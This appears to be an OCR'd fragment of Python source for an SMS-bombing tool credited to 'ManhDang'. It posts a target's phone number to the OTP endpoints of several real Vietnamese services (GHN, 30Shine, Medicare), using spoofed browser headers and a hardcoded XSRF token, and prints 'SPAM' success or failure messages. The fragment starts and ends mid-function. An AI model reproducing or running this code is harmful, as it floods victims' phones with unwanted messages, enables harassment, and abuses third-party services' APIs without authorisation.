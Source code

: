     response = requests.post('https://online-gateway.ghn.vn/sso/public-api/v2/client/sendotp', headers=headers, json=json_data).json()
    if response ['code'] == 200:
        print(f'[BY: ManhDang] ~ \033[1;35m GHN SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDang] ~ \033[1;35m GHN SPAM THẤT BẠI')
def hine(sdt):
    headers = {
        'authority': 'ls6trhs5kh.execute-api.ap-southeast-1.amazonaws.com',
        'accept': 'application/json',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'authorization': '',
        'content-type': 'application/json',
        'origin': 'https://30shine.com',
        'referer': 'https://30shine.com/',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'cross-site',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
    }
    json_data = {
        'phone': sdt,
    }
    response = requests.post('https://ls6trhs5kh.execute-api.ap-southeast-1.amazonaws.com/Prod/otp/send', headers=headers, json=json_data,).json()
    if response ['success'] == True:
        print(f'[BY: Manhdang] ~ \033[1;35m 30SHINE SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDang] ~ \033[1;35m 30SHINE SPAM THẤT BẠI')

def medicare(sdt):
    headers = {
        'Accept': 'application/json, text/plain, */*',
        'Accept-Language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'Connection': 'keep-alive',
        'Content-Type': 'application/json',
        'Origin': 'https://medicare.vn',
        'Referer': 'https://medicare.vn/login',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
        'X-XSRF-TOKEN': 'eyJpdiI6IkZBTVZlcS9XSXdUb1lscll6d01BMlE9PSIsInZhbHVlIjoiRkRENVR6QUpKNUI5RWZoSTVqc0pmeHBvZTFFdGMxU1ZTQWNYWk5GOWRPbTNJNDFmeUYvbGVXZmcxVmo2QWJMcmdpL0J3dWx3ZzRsSklmT0Y2YVJldHZwSGJDazhZd0QrWVcwM3BGbFpzbndTMjI1bk1pV0xwK1AxTE5LQ0lnU3IiLCJtYWMiOiJjMzBkYzlkNDFiNjY1OTVhODVlN2E0YWVlZTQ4ZGMxYjMwYjQ5ZGRhNTU3ODYyYWUzZmU0MmZiYjFmMGUzNjk3IiwidGFnIjoiIn0=',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
    }
    json_data = {
        'mobile': sdt,
        'mobile_country_prefix': '84',
    }
    response = requests.post('https://medicare.vn/api/otp', headers=headers, json=json_data).json()
    try:
        if response ['error_code'] == 'fail':
            print(f'[BY: ManhDang] ~ \033[1;35m MEDICARE SPAM THẤT BẠI')
        else: